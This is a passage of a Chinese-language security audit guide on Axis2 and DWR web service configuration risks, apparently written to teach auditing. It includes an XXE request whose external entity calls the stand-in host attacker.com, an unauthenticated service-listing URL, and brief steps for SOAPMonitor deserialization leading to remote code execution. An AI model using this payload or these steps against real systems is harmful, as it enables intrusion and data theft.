 **配置审计要点**  
：  
```
<!-- Axis2危险配置示例 -->
<servlet-mapping>
    <servlet-name>AxisServlet</servlet-name>
    <url-pattern>/services/*</url-pattern>
</servlet-mapping>

```  
#### 2.1.2 未授权访问漏洞  
  
Axis2服务列表未授权访问：  
```
http://target/services/

```  
  
**风险**  
：暴露所有可用服务接口，包含管理功能和敏感数据接口。  
#### 2.1.3 自身未修复漏洞  
  
**Axis2 XXE漏洞利用**  
：  
```
POST /services/TestService HTTP/1.1
Content-Type: text/xml

<!DOCTYPE root [  <!ENTITY % remote SYSTEM "http://attacker.com/xxe">  %remote;]>
<soap:Envelope>
  ...
</soap:Envelope>

```  
  
**SOAPMonitor反序列化**  
：  
1. 访问/SOAPMonitor  
查看配置  
  
1. 利用5001端口JMX服务  
  
1. 发送恶意序列化数据触发RCE  
  
### 2.2 DWR接口安全分析  
  
###   
#### 2.2.1 默认安全配置项  
  
危险配置示例：  
```
<init-param>
    <param-name>debug</param-name>
    <param-value>true</param-value> <!-- 高风险！ -->
</init-param>

```  
  